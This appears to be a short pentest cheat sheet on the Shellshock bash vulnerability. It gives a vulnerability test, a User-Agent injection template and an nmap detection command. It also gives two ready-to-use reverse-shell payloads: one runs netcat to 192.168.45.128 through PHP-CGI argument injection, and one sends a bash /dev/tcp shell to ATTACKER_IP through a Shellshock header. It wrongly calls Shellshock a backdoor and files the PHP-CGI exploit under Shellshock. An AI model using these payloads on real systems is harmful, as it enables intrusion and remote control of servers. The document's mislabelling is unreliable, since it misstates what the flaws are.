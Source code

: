 # Shellshock

It is a backdoor that affected CGI programs on web servers, OpenSSH, DHCP Clients...

When executed on a system, the shell would echo `vuln` if it's vulnerable to shellsock:

```sh
env x=`() { :;}; echo vuln` bash -c "echo this is a test"
```


## Attack vectors

Modification of `User-Agent` strings to include shellshock payloads inteded to run command on the remote server

```sh
curl -H "user-agent: () { :; }; <COMMAND>
```

## Exploitation

Locate CGI program on a potentiallt vulnerable systeme
The `phpinfo.php` page can give use some information about the cgi location the variables like

- `ORIG_SCRIPT_NAME`
- `_ENV["ORIG_SCRIPT_NAME"]`
- `_SERVER["ORIG_SCRIPT_NAME"]`

```sh
nmap --script http-shellshock --script-args uri=/cgi-bin/login.cgi <TARGET> -p 80
```


**Payload**

Reverse-shelll 

```sh
curl -i -s -k -X 'POST' --data-binary "<?php system('nc 192.168.45.128 4444 -e /bin/bash');die; ?>" "http://target.com/cgi-bin/php5?%2dd+allow_url_include%3don+%2dd+safe_mode%3doff+%2dd+suhosin%2esimulation%3don+%2dd+disable_functions%3d%22%22+%2dd+open_basedir%3dnone+%2dd+auto_prepend_file%3dphp%3a%2f%2finput+%2dd+cgi%2eforce_redirect%3d0+%2dd+cgi%2eredirect_status_env%3d0+%2dn"
```


```sh
curl -H "user-agent: () { :; }; echo; echo; /bin/bash -c 'bash -i >& /dev/tcp/<ATTACKER_IP>/9001 0>&1'" \
http://TARGET.COM/cgi-bin/test.cgi
```

